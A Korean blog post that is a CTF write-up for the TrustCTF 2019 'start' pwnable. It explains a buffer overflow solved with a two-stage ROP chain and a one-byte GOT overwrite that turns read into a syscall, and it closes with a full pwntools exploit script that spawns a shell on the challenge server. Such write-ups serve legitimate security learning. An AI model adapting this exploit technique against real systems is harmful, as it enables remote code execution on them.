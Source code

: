 ```yaml
---
layout: post
title: ! "[TrustCTF 2019] start Write-up"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - CTF
---
```


TrustCTF에 나왔던 가장 쉬운 `pwnable` 문제였던 start 풀이.


<!--more-->

### 문제

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic01.PNG)

간단한 BOF문제인데 read 이후 프로그램이 끝나고, write는 주지도 않는다.

같은 팀원한테 물어봐서 바보소리 듣고 read 함수 안에있는 syscall 쓰라고 해서 풀었다 헤헤..

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic02.PNG)

ROP 하라고 대놓고 가젯폭탄도 던져준다.

버퍼사이즈 빡빡하긴 한데 이게 있어서 전부 구겨넣을 수 있다.

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic03.PNG)

주어진 libc에서 read 함수 안에있는 syscall 위치를 찾는다.

### Stage 1

```python
payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")
```

bss 영역에 `/bin/sh`를 써 넣는다.

그리고 다시 main 함수로 돌아간다.

### Stage 2

```python
payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")
```

그다음은 read got 영역을 1바이트만 쓴다. (syscall 주소, 0x7b)

이제 read가 syscall이 됬으니까 bss 영역에 쓴 `/bin/sh`를 활용해서 쉘을 따주면 된다 ^0^

### Exploit Code

```python
from pwn import *

HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")

payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")

#r.sendline("cat flag")

r.interactive()
```

쉬운 문제였지만 감을 잃지 않으려면 꾸준히 노력해야 한다는 것을 깨닫게 해 준 고마운 문제였다.

